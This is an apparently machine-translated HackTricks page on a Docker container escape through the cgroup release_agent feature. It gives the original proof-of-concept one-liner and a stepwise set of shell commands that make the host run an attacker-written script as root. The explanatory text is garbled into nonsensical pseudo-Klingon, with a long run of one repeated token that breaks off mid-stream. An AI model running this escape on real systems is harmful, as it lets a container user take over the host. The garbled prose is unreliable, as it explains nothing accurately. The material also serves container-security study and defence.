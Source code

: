 # Docker release_agent cgroups escape

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


**For further details, refer to the [original blog post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/).** This is just a summary:

Original PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
**PoC** (Proof of Concept) **tlhIngan Hol** (PoC) **vItlhutlh** (PoC) **cgroups** **ghItlh** (PoC) **exploit** **ghItlh** (PoC) **method** **ghItlh** (PoC) **jImej** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (PoC) **'e'** (
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **QapwI' Cgroup Qap:**
- "x" nom vItlhutlh cgroup yIlo'laHbe'.
- "x" cgroup notify_on_release file vIghojmoH 1 qar'a'.
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **QapHa' Release Agent:**
- /etc/mtab file laH container path host DaH ghaH.
- cgroup release_agent file /cmd script DaH execute laH configured. /cmd acquired host path DaH.
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **Qap je QaDwI' je:**
- QaDwI' DaH jImejDaq /cmd script yIlo'lu' 'ej /output file vItlhutlh. /output Daq host Daq path vItlhutlh.
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **QapHa'wI'**: 
- "x" vItlhutlh cgroupDaq 'e' vItlhutlh process vItlhutlh.
- 'ej vItlhutlh 'e' vItlhutlh `release_agent` (the /cmd script) vItlhutlh, 'ej 'oH ps aux HostDaq vItlhutlh 'ej /output containerDaq vIghoS.
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
